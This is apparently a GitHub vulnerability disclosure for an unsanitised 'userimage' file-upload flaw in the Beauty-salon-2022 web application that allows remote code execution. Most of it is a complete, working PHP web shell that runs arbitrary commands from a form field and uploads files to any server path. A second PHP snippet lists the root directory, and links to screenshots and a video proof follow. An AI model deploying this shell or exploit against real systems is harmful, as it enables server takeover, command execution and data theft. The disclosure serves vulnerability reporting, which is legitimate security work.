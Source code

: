 ## Beauty-salon-2022-Webshell-file-upload-RCE

![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/Screenshot%202022-10-12%20162133.png)

## Description:
The parameter `userimage` from Beauty-salon-2022 suffers from Web Shell-File Upload - RCE.
NOTE: The user permissions of this system are not working correctly, and the function is not sanitizing well.
The attacker can use an already created account from someone who controls this system and he can upload a very malicious file by using this vulnerability, 
or more precisely (no sanitizing of function for edit image), for whatever account, then he can execute it from anywhere on the external network.

Status: HIGH Vulnerability

[+] Exploit-File-Upload:

```php
<!-- Project Name : PHP Web Shell -->
<!-- Version : 4.0 nu11secur1ty -->
<!-- First development date : 2022/10/05 -->
<!-- This Version development date : 2022/10/05 -->
<!-- Moded and working with PHP 8 : 2022/10/05 -->
<!-- language : html, css, javascript, php -->
<!-- Developer : nu11secur1ty -->
<!-- Web site : https://www.nu11secur1ty.com/ -->

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
	<head>
		<meta http-equiv="Content-Type" content="text/html" charset="euc-kr">
		<title>PHP Web Shell Ver 4.0 by nu11secur1ty</title>
		<script type="text/javascript">
			function FocusIn(obj)
			{
				if(obj.value == obj.defaultValue)
					obj.value = '';
			}
			
			function FocusOut(obj)
			{
				if(obj.value == '')
					obj.value = obj.defaultValue;
			}
		</script>
	</head>
	<body>
		<b>WebShell's Location = http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?></b><br><br>
		
		HTTP_HOST = <?php echo $_SERVER['HTTP_HOST'] ?><br>
		REQUEST_URI = <?php echo $_SERVER['REQUEST_URI'] ?><br>
		
		<br>
		
		<form name="cmd_exec" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">	
			<input type="text" name="cmd" size="70" maxlength="500" value="Input command to execute" onfocus="FocusIn(document.cmd_exec.cmd)" onblur="FocusOut(document.cmd_exec.cmd)">
			<input type="submit" name="exec" value="exec">
		</form>
		<?php
			if(isset($_POST['exec']))
			{
				exec($_POST['cmd'],$result);

				echo '----------------- < OutPut > -----------------';
				echo '<pre>';
				foreach($result as $print)
				{
					$print = str_replace('<','&lt;',$print);
					echo $print . '<br>';
				}
				echo '</pre>';
			}
			else echo '<br>';
		?>
		
		<form enctype="multipart/form-data" name="file_upload" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">
			<input type="file" name="file">
			<input type="submit" name="upload" value="upload"><br>
			<input type="text" name="target" size="100" value="Location where file will be uploaded (include file name!)" onfocus="FocusIn(document.file_upload.target)" onblur="FocusOut(document.file_upload.target)">
		</form>
		<?php
			if(isset($_POST['upload']))
			{
				$check = move_uploaded_file($_FILES['file']['tmp_name'], $_POST['target']);
				
				if($check == TRUE)
					echo '<pre>The file was uploaded successfully!!</pre>';
				else
					echo '<pre>File Upload was failed...</pre>';
			}
		?>
	</body>
</html>
```
[+]Exploit-RCE:

```PHP
<?php
$dir    = '/';
$files1 = scandir($dir);
$files2 = scandir($dir, 1);

print_r($files1);
print_r($files2);
?>
```
![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/Screenshot%202022-10-18%20112750.png)

# Proof and Exploit:
[href](https://streamable.com/ewdmoh)
